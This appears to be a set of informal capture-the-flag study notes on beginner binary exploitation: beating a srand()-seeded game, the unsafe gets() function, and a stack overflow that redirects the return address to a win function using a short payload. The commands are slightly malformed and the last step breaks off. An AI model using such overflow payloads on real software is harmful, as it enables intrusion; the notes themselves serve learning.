 ### EXAMPLES

---

### EX-1

Pwn question - Win 5 times in a row in rock paper scissor for the flag. Count based pwning challenge.
Vulnerability due to srand() which generates randok choices and makes it hard to infiltrate into the system.

Soln - Write a script which takes input the same as the computer to match it's output on every round.

---

### EX-2

Buffer overflow - Gets() function is vulnerable and stores characters beyond the specified size as well.
Better to use fgets(), if gets() function is in the source code, try to overflow the function with a larger input.

---

### EX-2

Buffer Overflow 2- Sometimes, just overflowing the function isn't enough. We need to control the return address and point it towards the flag.

Steps -

```py
1. Info func
2. disassemble main, vuln, flag etc
3. run the program and overflow it
4. Find the offset
5. cyclic 100
6. Let's say offset is 44 now
7. python3 'print "A" * 44'
8. Now, we want to return the address of win function for instance, the string after 44 will reach the EIP and hence, the function could be executed.
9. So python3 'print ("A" * 44 +  "\xf6\x91\x49\x80")' > payload
10. echo "fake_flag" > flag.txt
11. ./vuln < payload
12. If it doesn't work try with the very next address from '
```

---
